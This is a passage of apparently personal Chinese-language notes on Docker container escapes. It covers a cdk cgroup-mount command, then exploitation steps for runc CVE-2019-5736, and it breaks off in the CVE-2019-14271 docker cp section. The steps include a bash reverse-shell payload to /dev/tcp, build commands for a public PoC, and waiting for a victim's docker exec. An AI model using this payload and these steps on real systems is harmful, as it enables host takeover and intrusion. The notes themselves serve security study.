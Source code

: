 ![image-20230505155138351](images/11.png)

#### 挂载 cgroup 目录

使用cdk进行利用

```
./cdk run mount-cgroup "<shell-cmd>"
```

### Docker 软件设计引起的逃逸

因为这种环境不好搭建，就没有去复现了，就抄了一遍做一个记录

##### CVE-2019-5736 runc容器逃逸漏洞

**漏洞详情**

Docker、containerd或者其他基于runc的容器运行时存在安全漏洞，攻击者通过特定的容器镜像或者exec操作可以获取到宿主机的runc执行时的文件句柄并修改掉runc的二进制文件，从而获取到宿主机的root执行权限。

**影响范围**

Docker版本 < 18.09.2
runc版本 <= 1.0-rc6。

**利用步骤**

使用POC：

POC: [CVE-2019-5736-PoC](https://github.com/Frichetten/CVE-2019-5736-PoC)

- 修改payload

```
PLAINTEXT
vi main.go
payload = "#!/bin/bash \n bash -i >& /dev/tcp/ip/port 0>&1"
```

- 编译

```
PLAINTEXT
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build main.go
```

- 拷贝到docker容器中执行
- 等待受害者使用`docker exec`连接容器
- 收到反弹shell

##### CVE-2019-14271 Docker cp 命令容器逃逸攻击漏洞

**漏洞详情**

当Docker宿主机使用cp命令时，会调用辅助进程docker-tar，该进程没有被容器化，且会在运行时动态加载一些libnss.so库。黑客可以通过在容器中替换libnss.so等库，将代码注入到docker-tar中。当Docker用户尝试从容器中拷贝文件时将会执行恶意代码，成功实现Docker逃逸，获得宿主机root权限。

**影响范围**
